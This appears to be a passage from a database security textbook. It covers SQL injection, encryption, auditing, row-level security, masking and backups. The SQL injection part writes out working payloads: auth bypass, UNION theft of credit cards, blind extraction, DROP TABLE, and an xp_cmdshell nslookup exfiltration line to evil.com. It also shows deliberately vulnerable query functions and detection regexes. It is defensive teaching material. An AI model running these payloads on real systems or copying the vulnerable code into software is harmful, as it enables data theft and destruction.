Imagine a wall safe. When you enter the correct combination, the door opens (normal query). Now imagine the safe has a hidden backdoor: entering "ANY 4 DIGITS + press lever" also opens it. An attacker discovers this and can now open any safe. SQL injection is that backdoor. A WAF (Web Application Firewall) is like adding a guard who watches for suspicious combination attempts — helpful, but the real fix is removing the backdoor entirely (parameterized queries).

**SQL Injection Types Comparison:**

| Type | Method | Difficulty | Impact | Detection | Example Payload |
|------|--------|-----------|--------|-----------|-----------------|
| **Error-Based** | Trigger DB errors to extract info from error messages | Low | Medium (info gathering) | Error messages in response | `' AND 1=CONVERT(INT, @@version) --` |
| **Union-Based** | Use UNION to append results from other tables | Low | High (data exfiltration) | Extra rows in results | `' UNION SELECT username,password FROM users --` |
| **Blind (Boolean)** | Ask true/false questions via conditional responses | Medium | Medium (data extraction) | Page content changes | `' OR (SELECT COUNT(*) FROM users) > 0 --` |
| **Blind (Time-Based)** | Use SLEEP/WAITFOR to infer true/false via response timing | Medium-High | Medium (slow extraction) | Response delay | `' OR IF((SELECT COUNT(*) FROM users)>0, WAITFOR(5), 0) --` |
| **Out-of-Band** | Exfiltrate data via DNS/HTTP requests to attacker server | High | Very High (silent exfil) | Network monitoring | `'; EXEC xp_cmdshell('nslookup ' + data + '.evil.com') --` |
| **Second-Order** | Malicious input stored then executed in a different context | Medium-High | High (delayed attack) | Hard — no immediate effect | Register with payload as username; triggers later in admin panel |
| **Stacked Queries** | Execute multiple statements via semicolon | High | Very High (DML/DDL) | Depends on DBMS support | `'; DROP TABLE users; --` |

**SQL: Vulnerable vs Safe — Full Demonstration:**

```sql
-- Vulnerable table
CREATE TABLE users (
    id SERIAL PRIMARY KEY,
    username TEXT,
    password TEXT,
    email TEXT,
    credit_card TEXT
);

-- BAD: String interpolation
-- Query: SELECT * FROM users WHERE username = '$input' AND password = '$pass'

-- Attack 1: SQLi Bypass
-- Input: ' OR '1'='1
-- Query becomes: SELECT * FROM users WHERE username = '' OR '1'='1' AND password = ''
-- Returns ALL users — authentication bypassed!

-- Attack 2: UNION data theft
-- Input: ' UNION SELECT id,username,credit_card,NULL FROM users --
-- Query: SELECT * FROM users WHERE username = '' UNION SELECT id,username,credit_card,NULL FROM users --'
-- Attacker gets all credit card numbers

-- Attack 3: Blind boolean inference
-- Input: ' OR (SELECT substring(password,1,1) FROM users WHERE id=1) = 'a' --
-- If page loads normally, first char of password is 'a'; repeat for each char

-- SAFE: Parameterized query
PREPARE safe_query(text, text) AS
    SELECT * FROM users WHERE username = $1 AND password = $2;
EXECUTE safe_query('alice', 'secret123');

-- SAFE: Stored procedure with parameters
CREATE OR REPLACE FUNCTION get_user(p_user TEXT, p_pass TEXT)
RETURNS TABLE(id INT, username TEXT, email TEXT) AS $$
BEGIN
    RETURN QUERY SELECT u.id, u.username, u.email FROM users u
    WHERE u.username = p_user AND u.password = crypt(p_pass, u.password);
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

**Python — SQL Injection Prevention:**

```python
import sqlite3
import re

class SafeDatabase:
    def __init__(self, db_path: str):
        self.conn = sqlite3.connect(db_path)
        self._setup()

    def _setup(self):
        self.conn.execute("""
            CREATE TABLE IF NOT EXISTS users (
                id INTEGER PRIMARY KEY,
                username TEXT UNIQUE,
                password_hash TEXT,
                email TEXT
            )
        """)
        self.conn.execute("""
            CREATE TABLE IF NOT EXISTS orders (
                id INTEGER PRIMARY KEY,
                user_id INTEGER,
                product TEXT,
                amount REAL
            )
        """)

    # SAFE: parameterized query
    def get_user(self, username: str) -> tuple | None:
        cur = self.conn.execute(
            "SELECT id, username, email FROM users WHERE username = ?",
            (username,)
        )
        return cur.fetchone()

    # SAFE: parameterized with multiple params
    def get_orders(self, user_id: int, min_amount: float = 0) -> list:
        cur = self.conn.execute(
            "SELECT * FROM orders WHERE user_id = ? AND amount >= ?",
            (user_id, min_amount)
        )
        return cur.fetchall()

    # SAFE: dynamic column name with whitelist validation
    def get_users_sorted(self, column: str, ascending: bool = True) -> list:
        ALLOWED_COLUMNS = {"id", "username", "email"}
        if column not in ALLOWED_COLUMNS:
            raise ValueError(f"Invalid column: {column}")
        # Column is validated, safe to interpolate (it's a known constant)
        order = "ASC" if ascending else "DESC"
        cur = self.conn.execute(
            f"SELECT id, username, email FROM users ORDER BY {column} {order}"
        )
        return cur.fetchall()

    # VULNERABLE (for demonstration only — never use this)
    def get_user_vulnerable(self, username: str) -> list:
        query = f"SELECT * FROM users WHERE username = '{username}'"
        cur = self.conn.execute(query)
        return cur.fetchall()

    def detect_injection_attempt(self, user_input: str) -> bool:
        patterns = [
            r"'?\s*OR\s+['\"]?.*=",  # ' OR '1'='1
            r"'?\s*;",                # statement terminator
            r"\bUNION\b.*\bSELECT\b", # UNION SELECT
            r"\bDROP\b\s+\w+",        # DROP TABLE
            r"\bEXEC\b",              # EXEC xp_cmdshell
            r"--",                     # comment injection
            r"/\*.*\*/",              # block comment
        ]
        for pattern in patterns:
            if re.search(pattern, user_input, re.IGNORECASE):
                return True
        return False

if __name__ == "__main__":
    db = SafeDatabase(":memory:")
    # Test safe path
    print(db.get_user("alice"))
    # Test detection
    print(db.detect_injection_attempt("' OR 1=1 --"))
    print(db.detect_injection_attempt("alice"))
```

**C++ — SQL Injection Prevention with Parameterized Queries (SQLite):**

```cpp
#include <iostream>
#include <string>
#include <sqlite3.h>
#include <memory>
#include <vector>

class SafeDB {
    sqlite3* db;

public:
    SafeDB(const std::string& path) {
        sqlite3_open(path.c_str(), &db);
    }

    ~SafeDB() { sqlite3_close(db); }

    // SAFE: parameterized query
    std::vector<std::string> getUser(const std::string& username) {
        sqlite3_stmt* stmt;
        std::string sql = "SELECT id, username, email FROM users WHERE username = ?";
        sqlite3_prepare_v2(db, sql.c_str(), -1, &stmt, nullptr);
        sqlite3_bind_text(stmt, 1, username.c_str(), -1, SQLITE_STATIC);

        std::vector<std::string> results;
        while (sqlite3_step(stmt) == SQLITE_ROW) {
            int id = sqlite3_column_int(stmt, 0);
            const char* user = (const char*)sqlite3_column_text(stmt, 1);
            const char* email = (const char*)sqlite3_column_text(stmt, 2);
            results.push_back(std::to_string(id) + "|" + user + "|" + email);
        }
        sqlite3_finalize(stmt);
        return results;
    }

    // VULNERABLE — string concatenation (never use)
    std::vector<std::string> getUserVulnerable(const std::string& username) {
        sqlite3_stmt* stmt;
        std::string sql = "SELECT * FROM users WHERE username = '" + username + "'";
        sqlite3_prepare_v2(db, sql.c_str(), -1, &stmt, nullptr);
        std::vector<std::string> results;
        while (sqlite3_step(stmt) == SQLITE_ROW)
            results.push_back("found");
        sqlite3_finalize(stmt);
        return results;
    }
};

int main() {
    SafeDB db(":memory:");
    auto r = db.getUser("alice");
    std::cout << "Safe result count: " << r.size() << "\n";
    return 0;
}
```

**Dry Run Trace Table — SQL Injection Exploit Walkthrough:**

| Step | User Input | SQL Query (After Interpolation) | DB Response | Attacker Action |
|------|-----------|---------------------------------|-------------|-----------------|
| 1 | (normal) alice | `SELECT * FROM users WHERE username = 'alice'` | Returns 1 row | Normal login |
| 2 | `' OR '1'='1` | `SELECT * FROM users WHERE username = '' OR '1'='1'` | Returns ALL rows | Auth bypass successful |
| 3 | `' UNION SELECT 1,2,3,4 --` | `SELECT * FROM users WHERE username = '' UNION SELECT 1,2,3,4 --'` | Returns 1+rows | Maps column count = 4 |
| 4 | `' UNION SELECT id,username,credit_card,password FROM users --` | Same query with real columns | Returns credit card data | Data exfiltration |
| 5 | `'; DROP TABLE orders; --` | `SELECT * ... username = ''; DROP TABLE orders; --'` | Table dropped | Destructive action |
| 6 | `' OR (SELECT 1 FROM pg_sleep(5)) IS NOT NULL --` | ... with pg_sleep(5) | 5-second delay | Blind time-based detection |
| 7 | `' UNION SELECT null,table_name,null,null FROM information_schema.tables WHERE table_schema='public' --` | ... UNION ... | Returns table list | Schema enumeration |

**Python — Blind SQL Injection Detector (Simulation):**

```python
import re, time

def simulate_blind_sqli(username: str) -> tuple[str, float]:
    """Simulates a blind SQL injection to show how it works."""
    start = time.time()

    # This simulates a vulnerable query:
    # SELECT * FROM users WHERE username = '<input>'
    malicious = re.search(r"pg_sleep\((\d+)\)", username, re.IGNORECASE)
    if malicious:
        delay = int(malicious.group(1))
        time.sleep(delay)
        return "VULNERABLE: Time-based injection detected", time.time() - start

    if "' OR '" in username or "1=1" in username:
        return "VULNERABLE: Boolean-based injection — returns all rows", time.time() - start

    if " UNION SELECT " in username.upper():
        return "VULNERABLE: UNION-based injection — data exfiltrated", time.time() - start

    return "SAFE", time.time() - start

# Simulate attacks
attacks = [
    "' OR '1'='1",
    "' UNION SELECT credit_card FROM users --",
    "' OR pg_sleep(5) IS NOT NULL --"
]
for attack in attacks:
    result, duration = simulate_blind_sqli(attack)
    print(f"Input: {attack[:30]:30s} -> {result} ({duration:.2f}s)")
```

**Complexity Analysis:**

| Operation | Time | Space | WHY |
|-----------|------|-------|-----|
| Parameterized query | O(1) preparation + O(N) execution | O(1) | Query plan compiled once; params bound without parsing |
| String concatenation (vuln) | Same O(N) but insecure | O(1) | Performance identical; security is the difference |
| Input validation scanning | O(M) per field | O(1) | M = input length; regex scan is linear |
| Blind SQLi extraction | O(96 x N) for N-char string | O(1) | 96 characters per position x N positions; 96x slower than direct read |

**Edge Cases:**

| Edge Case | Scenario | Mitigation |
|-----------|----------|-----------|
| Second-order injection | Malicious input stored, triggers in different context | Validate on WRITE; parameterize on READ |
| Encoded injection | URL-encoded or Unicode-normalized payload | Decode before validation; normalize before parameterize |
| Stored procedure injection | Dynamic SQL inside SP with concatenated params | Use EXECUTE USING (PostgreSQL) or sp_executesql (SQL Server) |
| ORM injection | Hibernate/SQLAlchemy dynamic query | Use ORM's parameterized API; avoid native SQL with concatenation |
| JSON/XML injection | JSON path expressions with user input | Parameterize JSON/XML queries; validate structure |
| WAF bypass | Attacker crafts payload that evades rules | Don't rely on WAF alone — parameterized queries are primary defense |

**Advantages & Disadvantages:**

| Approach | Advantages | Disadvantages |
|----------|-----------|-------------|
| Parameterized Queries | 100% effective; zero bypass | Cannot parameterize table/column names |
| Stored Procedures | Encapsulated; consistent | Still vulnerable if dynamic SQL inside |
| ORM Frameworks | Automatic parameterization | Complex queries may generate poor SQL |
| Input Validation | Defense in depth | Block-based — may reject legitimate input |
| WAF | Network-level protection | Can be bypassed; adds latency |


> **One-Sentence Takeaway:** Encryption at rest (TDE) protects data files; encryption in transit (TLS) protects network communication.

### 18.5 Encryption


**Real-World Analogy — The Locked Briefcase in a Vault:**

Encryption at rest is like locking a sensitive document in a briefcase before storing it in a bank vault. Even if someone cracks the vault, they still need the briefcase key. Encryption in transit is like using a tamper-proof armored courier to transport the briefcase between locations. They serve different purposes but together create end-to-end protection.

**Numbered Steps — Encryption at Rest with pgcrypto:**

1. Install pgcrypto extension (`CREATE EXTENSION pgcrypto`)
2. Generate or import encryption key (use key management service)
3. Encrypt columns on INSERT using `pgp_sym_encrypt(data, key)`
4. Decrypt on SELECT using `pgp_sym_decrypt(column, key)`
5. Control decryption access via security barrier view
6. Rotate keys periodically (re-encrypt all rows with new key)
7. For TDE: enable at database/tablespace level (zero application changes)

**Encryption Comparison:**

| Layer | Method | Overhead | Scope | Key Management | Use Case |
|-------|--------|----------|-------|---------------|----------|
| **In Transit** (TLS 1.3) | TLS handshake + symmetric encryption | 2-10% latency (handshake); ~0% per query | Network traffic | Auto via CA certificates | Every DB connection |
| **At Rest: TDE** | Filesystem-level encryption, transparent to DB | 3-5% I/O overhead | Entire database or tablespace | Server certificate or wallet | Disk theft, backup protection |
| **At Rest: Column-Level** | Application or pgcrypto per column | 10-30% per encrypted column | Specific columns only | Application-managed keys | SSN, credit card, PII |
| **At Rest: Filesystem** (LUKS/ bitlocker) | Block-level encryption | 1-5% I/O overhead | Entire disk/filesystem | OS key management | Defense in depth |
| **Application-Layer** | Encrypt before DB write, decrypt after read | 5-20% app overhead | Specific fields | App or client-side keys | Zero-trust — DB never sees plaintext |

**SQL: TDE and Column-Level Encryption:**

```sql
-- PostgreSQL: pgcrypto column-level encryption
CREATE EXTENSION IF NOT EXISTS pgcrypto;

-- Encrypt on insert
INSERT INTO users (username, ssn)
VALUES ('bob', pgp_sym_encrypt('123-45-6789', 'aes_key_here'));

-- Decrypt when needed (with access control)
SELECT username, pgp_sym_decrypt(ssn, 'aes_key_here') AS ssn
FROM users WHERE id = 1;

-- MySQL: AES encryption
INSERT INTO users (username, ssn)
VALUES ('bob', AES_ENCRYPT('123-45-6789', 'encryption_key'));
SELECT username, AES_DECRYPT(ssn, 'encryption_key') AS ssn FROM users WHERE id = 1;

-- SQL Server: TDE
CREATE DATABASE ENCRYPTION KEY
  WITH ALGORITHM = AES_256
  ENCRYPTION BY SERVER CERTIFICATE MyServerCert;
ALTER DATABASE MyDatabase SET ENCRYPTION ON;

-- Oracle: TDE column-level
CREATE TABLE employees (
  emp_id NUMBER,
  ssn VARCHAR2(11) ENCRYPT USING 'AES256'
);
-- Tablespace-level TDE
CREATE TABLESPACE secure_ts
  DATAFILE 'secure01.dbf' SIZE 100M
  ENCRYPTION USING 'AES256' DEFAULT STORAGE(ENCRYPT);
```

**Encryption in Transit (TLS):**

```sql
-- PostgreSQL: Force SSL
-- postgresql.conf:
ssl = on
ssl_cert_file = 'server.crt'
ssl_key_file = 'server.key'
ssl_ca_file = 'root.crt'

-- pg_hba.conf: Require SSL for all connections
hostssl all all 0.0.0.0/0 md5

-- MySQL: Force TLS
-- my.cnf:
[mysqld]
ssl-ca = /path/to/ca.pem
ssl-cert = /path/to/server-cert.pem
ssl-key = /path/to/server-key.pem
require_secure_transport = ON

-- Client connection (verify-full prevents MITM)
psql "host=db.example.com port=5432 dbname=mydb sslmode=verify-full sslrootcert=root.crt"
```

**Pseudocode — Column-Level Encryption/Decryption:**

```
FUNCTION encrypt_column(plaintext, encryption_key)
    // Step 1: Generate random initialization vector (IV)
    iv = random_bytes(16)   // AES-256-CBC uses 16-byte IV

    // Step 2: Encrypt with AES-256-CBC
    cipher = AES_256_CBC.encrypt(
        plaintext = plaintext,
        key = encryption_key,
        iv = iv
    )

    // Step 3: Prepend IV to ciphertext (needed for decryption)
    result = base64_encode(iv + cipher)
    RETURN result
END FUNCTION

FUNCTION decrypt_column(encrypted_data, encryption_key)
    // Step 1: Decode from base64
    raw = base64_decode(encrypted_data)

    // Step 2: Extract IV (first 16 bytes) and ciphertext (remaining)
    iv = raw[0:16]
    ciphertext = raw[16:]

    // Step 3: Decrypt
    plaintext = AES_256_CBC.decrypt(
        ciphertext = ciphertext,
        key = encryption_key,
        iv = iv
    )
    RETURN plaintext
END FUNCTION
```

**Python — Column-Level Encryption Implementation:**

```python
import os
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding

class ColumnEncryptor:
    def __init__(self, key: bytes):
        # Key must be 32 bytes for AES-256
        assert len(key) == 32
        self.key = key

    def encrypt(self, plaintext: str) -> str:
        iv = os.urandom(16)
        padder = padding.PKCS7(128).padder()
        padded_data = padder.update(plaintext.encode()) + padder.finalize()

        cipher = Cipher(algorithms.AES(self.key), modes.CBC(iv))
        encryptor = cipher.encryptor()
        ciphertext = encryptor.update(padded_data) + encryptor.finalize()

        # Store IV + ciphertext together
        return base64.b64encode(iv + ciphertext).decode()

    def decrypt(self, encrypted_data: str) -> str:
        raw = base64.b64decode(encrypted_data)
        iv = raw[:16]
        ciphertext = raw[16:]

        cipher = Cipher(algorithms.AES(self.key), modes.CBC(iv))
        decryptor = cipher.decryptor()
        padded_data = decryptor.update(ciphertext) + decryptor.finalize()

        unpadder = padding.PKCS7(128).unpadder()
        plaintext = unpadder.update(padded_data) + unpadder.finalize()
        return plaintext.decode()

    # Envelope encryption: data key encrypted by master key
    @staticmethod
    def generate_data_key() -> bytes:
        return os.urandom(32)

    @staticmethod
    def wrap_key(data_key: bytes, master_key: bytes) -> bytes:
        iv = os.urandom(16)
        cipher = Cipher(algorithms.AES(master_key), modes.CBC(iv))
        encryptor = cipher.encryptor()
        wrapped = encryptor.update(data_key) + encryptor.finalize()
        return base64.b64encode(iv + wrapped).decode().encode()

    @staticmethod
    def unwrap_key(wrapped: bytes, master_key: bytes) -> bytes:
        raw = base64.b64decode(wrapped)
        iv, ciphertext = raw[:16], raw[16:]
        cipher = Cipher(algorithms.AES(master_key), modes.CBC(iv))
        decryptor = cipher.decryptor()
        return decryptor.update(ciphertext) + decryptor.finalize()

if __name__ == "__main__":
    master_key = os.urandom(32)
    data_key = ColumnEncryptor.generate_data_key()

    enc = ColumnEncryptor(data_key)
    ct = enc.encrypt("SSN: 123-45-6789")
    print(f"Encrypted: {ct[:40]}...")
    pt = enc.decrypt(ct)
    print(f"Decrypted: {pt}")
```

**C++ — AES Encryption Wrapper (using OpenSSL):**

```cpp
#include <iostream>
#include <string>
#include <vector>
#include <openssl/evp.h>
#include <openssl/rand.h>

class AESCrypt {
    std::vector<unsigned char> key;
public:
    AESCrypt(const std::vector<unsigned char>& k) : key(k) {}

    std::vector<unsigned char> encrypt(const std::string& plaintext) {
        std::vector<unsigned char> iv(16);
        RAND_bytes(iv.data(), 16);

        EVP_CIPHER_CTX* ctx = EVP_CIPHER_CTX_new();
        EVP_EncryptInit_ex(ctx, EVP_aes_256_cbc(), nullptr, key.data(), iv.data());

        std::vector<unsigned char> ciphertext(plaintext.size() + 32);
        int len = 0, total = 0;
        EVP_EncryptUpdate(ctx, ciphertext.data(), &len,
            (unsigned char*)plaintext.data(), plaintext.size());
        total += len;
        EVP_EncryptFinal_ex(ctx, ciphertext.data() + total, &len);
        total += len;
        ciphertext.resize(total);

        // Prepend IV
        std::vector<unsigned char> result = iv;
        result.insert(result.end(), ciphertext.begin(), ciphertext.end());
        EVP_CIPHER_CTX_free(ctx);
        return result;
    }
};

int main() {
    std::vector<unsigned char> key(32);
    RAND_bytes(key.data(), 32);
    AESCrypt crypt(key);
    auto ct = crypt.encrypt("SSN: 123-45-6789");
    std::cout << "Encrypted " << ct.size() << " bytes\n";
    return 0;
}
```

**Dry Run Trace Table — Encryption at Rest:**

| Step | Component | Action | Input | Output | Notes |
|------|-----------|--------|-------|--------|-------|
| 1 | App | Generate data key | — | 32-byte random key | One per table/column |
| 2 | App | Encrypt data key with master key | data_key, master_key | 48-byte wrapped key | Envelope encryption |
| 3 | App.encrypt() | Generate IV | — | 16-byte IV | Unique per encryption |
| 4 | App.encrypt() | AES-256-CBC encrypt | ssn="123-45-6789", key, iv | 32-byte ciphertext | (16 bytes padded) |
| 5 | App | Store in DB | base64(iv + ciphertext) | `OWZhMj...` (44 chars) | Column value |
| 6 | DB | TDE encrypts page | Database page | Encrypted page | Transparent layer |
| 7 | TLS layer | Encrypt TCP packet | DB response packet | TLS record | In-transit protection |
| 8 | App | Decrypt column | base64 value, key | ssn="123-45-6789" | Reverse of step 4 |

**Complexity Analysis:**

| Operation | Time | Space | WHY |
|-----------|------|-------|-----|
| AES-256-CBC encrypt (column) | O(B) | O(B) | B = plaintext block size; AES is block-cipher linear |
| AES-256-CBC decrypt | O(B) | O(B) | Same complexity as encrypt; symmetric |
| TLS handshake | O(1) one-time | O(1) | Key exchange + cert verification; ~2 RTT |
| TLS per-query overhead | O(B) stream | O(1) | Symmetric encryption on each packet; negligible |
| TDE page encrypt | O(P) per page write | O(1) | P = page size (8KB typical); on page flush to disk |
| Key rotation (re-encrypt) | O(N x B) | O(1) | Must read, decrypt, re-encrypt all N rows |

**Edge Cases:**

| Edge Case | Scenario | Mitigation |
|-----------|----------|-----------|
| Key loss | Encryption key deleted; data unrecoverable | Back up keys in secure key management (KMS/Vault) |
| Key rotation in-flight | Some rows use old key, some use new | Version key IDs per row; try current then fallback |
| Encryption + indexing | Cannot index encrypted column | Index on hash or use deterministic encryption (AES-SIV) |
| Performance degradation | 30%+ overhead on encrypted columns | Only encrypt truly sensitive columns; use TDE for bulk |
| Memory exposure | Key in memory paged to disk | Use mlock() to prevent swapping; HSM for production |
| Backup of encrypted DB | Backup encrypted with same key | Separate backup encryption key; never store with backup |


> **One-Sentence Takeaway:** Database auditing logs all privileged operations and access attempts for compliance and forensic investigation.

### 18.6 Auditing


Auditing records all security-relevant database activity for compliance, breach detection, and forensic reconstruction.

**Real-World Analogy — Bank Security Cameras and Logs:**

Auditing is a bank's security camera system. Every entrance, every teller station, every vault access is recorded. If money goes missing, security reviews the footage (audit log). But cameras are useless if nobody watches them — similarly, audit logs are useless without automated alerting and regular review. A bank also keeps a sign-in sheet for the vault (DDL audit), teller transaction journal (DML audit), and visitor log (login audit).

**Numbered Steps — Database Audit Implementation:**

1. **Define scope:** Identify sensitive tables (users, payments, PII data)
2. **Configure logging:** Enable query logging, connection logging, error logging
3. **Install audit extension:** pgaudit for PostgreSQL, audit plugin for MySQL
4. **Create audit triggers:** Log INSERT/UPDATE/DELETE on sensitive tables
5. **Set up audit table:** Separate schema with append-only permissions
6. **Define retention:** Archive logs older than 90 days to cold storage
7. **Integrate with SIEM:** Ship logs to Splunk, ELK, or Sentinel
8. **Create alerts:** Mass delete, after-hours access, privilege changes
9. **Review regularly:** Security team audit log review (weekly for critical)
10. **Test audit integrity:** Verify tamper-proof constraint — logs are append-only

**SQL: Audit Configuration:**

```sql
-- PostgreSQL: Audit log via configuration
-- postgresql.conf:
log_statement = 'ddl'       -- Log schema changes
log_duration = on           -- Log query duration
log_connections = on        -- Log all connections
log_disconnections = on     -- Log all disconnections
log_line_prefix = '%t %u %d %r '  -- Timestamp, user, database, host

-- pgaudit extension
CREATE EXTENSION IF NOT EXISTS pgaudit;
SET pgaudit.log = 'write,ddl,role';
SET pgaudit.log_level = 'notice';
SET pgaudit.log_relation = ON;

-- MySQL: Enterprise audit plugin
INSTALL PLUGIN audit_log SONAME 'audit_log.so';

-- Oracle: Unified audit
CREATE AUDIT POLICY sensitive_data_access
  ACTIONS SELECT ON employees.salary
  ACTIONS SELECT ON customers.credit_card
  WHEN 'SYS_CONTEXT(''USERENV'',''SESSION_USER'') != ''ADMIN'''
  EVALUATE PER SESSION;
AUDIT POLICY sensitive_data_access;

-- Audit log archive table (append-only)
CREATE TABLE audit_log (
    id BIGSERIAL PRIMARY KEY,
    event_time TIMESTAMPTZ DEFAULT NOW(),
    user_name TEXT,
    session_id TEXT,
    command TEXT,
    object_name TEXT,
    detail JSONB,
    client_ip INET,
    application_name TEXT
);
-- Make append-only: no UPDATE/DELETE/TRUNCATE to audit_log
REVOKE UPDATE, DELETE, TRUNCATE ON audit_log FROM PUBLIC;
```

**Python — Audit Logger with SIEM Export:**

```python
import json, time, socket, threading
from dataclasses import dataclass, field
from datetime import datetime, timezone

@dataclass
class AuditEvent:
    timestamp: str = field(default_factory=lambda: datetime.now(timezone.utc).isoformat())
    user: str = ""
    session_id: str = ""
    command: str = ""
    object_name: str = ""
    detail: dict | None = None
    client_ip: str = ""
    application: str = ""

class AuditLogger:
    def __init__(self, siem_host: str | None = None, siem_port: int = 514):
        self.events: list[AuditEvent] = []
        self.siem_host = siem_host
        self.siem_port = siem_port
        self._lock = threading.Lock()
        self._running = True

        if siem_host:
            self._sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            self._flush_thread = threading.Thread(target=self._periodic_flush, daemon=True)
            self._flush_thread.start()

    def log(self, event: AuditEvent) -> None:
        with self._lock:
            self.events.append(event)
        print(f"AUDIT: {event.user} | {event.command} | {event.object_name}")

    def log_query(self, user: str, query: str, obj: str = "") -> None:
        self.log(AuditEvent(
            user=user, command=query, object_name=obj,
            client_ip=self._get_ip(), application="web_app"
        ))

    def query_events(self, user: str | None = None,
                     obj: str | None = None,
                     limit: int = 100) -> list[AuditEvent]:
        results = self.events
        if user:
            results = [e for e in results if e.user == user]
        if obj:
            results = [e for e in results if e.object_name == obj]
        return results[-limit:]

    def export_json(self, path: str) -> None:
        data = [{"ts": e.timestamp, "user": e.user, "cmd": e.command,
                  "obj": e.object_name, "detail": e.detail} for e in self.events]
        with open(path, "w") as f:
            json.dump(data, f, indent=2)

    def _periodic_flush(self) -> None:
        while self._running:
            time.sleep(10)
            with self._lock:
                if self.events and self.siem_host:
                    batch = json.dumps([e.__dict__ for e in self.events[-50:]])
                    try:
                        self._sock.sendto(batch.encode(), (self.siem_host, self.siem_port))
                    except Exception:
                        pass  # SIEM unavailable — keep in local buffer

    def _get_ip(self) -> str:
        return "127.0.0.1"

    def stop(self) -> None:
        self._running = False

if __name__ == "__main__":
    logger = AuditLogger()
    logger.log_query("alice", "SELECT * FROM orders", "orders")
    logger.log_query("bob", "INSERT INTO payments VALUES (...)", "payments")
    logger.log_query("alice", "DELETE FROM users WHERE 1=1", "users")
    print("\nRecent events for alice:")
    for e in logger.query_events(user="alice"):
        print(f"  {e.timestamp} | {e.command}")
```

### 18.7 Row-Level Security


Row-level security (RLS) restricts which rows a user can access based on their identity or attributes, without modifying the query itself.

**Real-World Analogy — The Office Building with Floor Badges:**

In a secure office building, your badge determines which floors you can access. Alice in sales can only go to floors 1-3 (see her region's customers). Bob in HR can access floors 1-5 (see all employees but only HR data). The elevator (database) automatically restricts floor access based on the badge — Alice doesn't need to remember which floors she can access; the system enforces it. RLS is the badge system for database rows.

**SQL: PostgreSQL RLS:**

```sql
CREATE TABLE customer_data (
    customer_id INT,
    region TEXT,
    revenue DECIMAL,
    contact_name TEXT,
    ssn TEXT
);

-- Enable RLS on table
ALTER TABLE customer_data ENABLE ROW LEVEL SECURITY;

-- Create policy: users see only their region's data
CREATE POLICY region_isolation ON customer_data
    FOR ALL
    USING (region = current_setting('app.region'));

-- Manager override: regional managers see their region
CREATE POLICY manager_access ON customer_data
    FOR SELECT
    USING (current_user IN (SELECT user_name FROM regional_managers WHERE region = region));

-- Example: User in 'EU' region
SET app.region = 'EU';
SELECT * FROM customer_data;  -- Only rows where region = 'EU'

-- SQL Server RLS
CREATE FUNCTION dbo.fn_security_predicate(@region SYSNAME)
    RETURNS TABLE WITH SCHEMABINDING
AS
    RETURN SELECT 1 AS result
    WHERE @region = USER_NAME() OR USER_NAME() = 'admin';

CREATE SECURITY POLICY RegionFilter
    ADD FILTER PREDICATE dbo.fn_security_predicate(region)
    ON dbo.customer_data;
```

### 18.8 Dynamic Data Masking


Dynamic data masking hides sensitive data from non-privileged users at query time without altering the underlying storage.

**SQL: Dynamic Data Masking:**

```sql
-- SQL Server: Built-in masking
CREATE TABLE employees (
    emp_id INT,
    name VARCHAR(100),
    email VARCHAR(100) MASKED WITH (FUNCTION = 'email()'),
    ssn VARCHAR(11) MASKED WITH (FUNCTION = 'partial(0,"XXX-XX-",4)'),
    salary DECIMAL(10,2) MASKED WITH (FUNCTION = 'default()')
);

-- Unmasked (admin):
SELECT * FROM employees;
-- emp_id: 1, name: Alice, email: alice@example.com, ssn: 123-45-6789, salary: 120000

-- Masked (regular user):
SELECT * FROM employees;
-- emp_id: 1, name: Alice, email: aXXX@XXXX.com, ssn: XXX-XX-6789, salary: 0.00

-- PostgreSQL: Custom masking via views
CREATE VIEW employees_public AS
SELECT
    emp_id, name,
    CASE WHEN current_user IN ('hr_dept', 'admin') THEN email
         ELSE regexp_replace(email, '(.)(.*)(@.*)', '\1***\3') END AS email_masked,
    CASE WHEN current_user IN ('hr_dept', 'admin') THEN ssn
         ELSE 'XXX-XX-' || substring(ssn, 8, 4) END AS ssn_masked
FROM employees;

REVOKE ALL ON employees FROM PUBLIC;
GRANT SELECT ON employees_public TO PUBLIC;
```

**Python — Data Masking Utility:**

```python
import re

class DataMasker:
    @staticmethod
    def mask_email(email: str) -> str:
        """alice@example.com -> a***@example.com"""
        parts = email.split("@")
        if len(parts) != 2:
            return email
        name, domain = parts
        if len(name) <= 1:
            return f"{name}***@{domain}"
        return f"{name[0]}***@{domain}"

    @staticmethod
    def mask_ssn(ssn: str) -> str:
        """123-45-6789 -> XXX-XX-6789"""
        if not re.match(r"^\d{3}-\d{2}-\d{4}$", ssn):
            return ssn
        return f"XXX-XX-{ssn[-4:]}"

    @staticmethod
    def mask_phone(phone: str) -> str:
        """+1-555-123-4567 -> +1-555-***-****"""
        return re.sub(r"\d{3}-\d{4}$", "***-****", phone)

    @staticmethod
    def mask_credit_card(cc: str) -> str:
        """4111-1111-1111-1111 -> ****-****-****-1111"""
        parts = cc.split("-")
        if len(parts) != 4:
            return cc
        return f"****-****-****-{parts[3]}"

    @staticmethod
    def apply_by_role(data: dict, user_role: str, sensitive_fields: list[str]) -> dict:
        """Apply masking based on user role."""
        if user_role in ("admin", "auditor"):
            return data  # No masking for privileged roles
        masked = dict(data)
        for field in sensitive_fields:
            if field in masked:
                if field == "email":
                    masked[field] = DataMasker.mask_email(masked[field])
                elif field in ("ssn", "ssn_masked"):
                    masked[field] = DataMasker.mask_ssn(masked[field])
                elif field == "phone":
                    masked[field] = DataMasker.mask_phone(masked[field])
                elif "card" in field.lower():
                    masked[field] = DataMasker.mask_credit_card(masked[field])
                else:
                    masked[field] = "***MASKED***"
        return masked

if __name__ == "__main__":
    record = {"name": "Alice", "email": "alice@example.com", "ssn": "123-45-6789",
              "phone": "+1-555-123-4567", "salary": 120000}
    print("Admin view:")
    print(DataMasker.apply_by_role(record, "admin", ["ssn", "email", "phone"]))
    print("Support view:")
    print(DataMasker.apply_by_role(record, "support", ["ssn", "email", "phone"]))
```


> **One-Sentence Takeaway:** Backup security requires encrypted backup files, restricted storage access, and regular restore testing.

### 18.9 Backup Security


```sql
-- pg_dump with encryption
pg_dump mydb | gpg --symmetric --cipher-algo AES256 -o backup.sql.gpg

-- MySQL with encryption
mysqldump --all-databases | gzip | openssl enc -aes-256-cbc -out backup.sql.gz.enc

-- Best practices:
-- 1. Encrypt all backups (at rest and in transit)
-- 2. Store backups offsite (geographically separate)
-- 3. Test restore procedures regularly
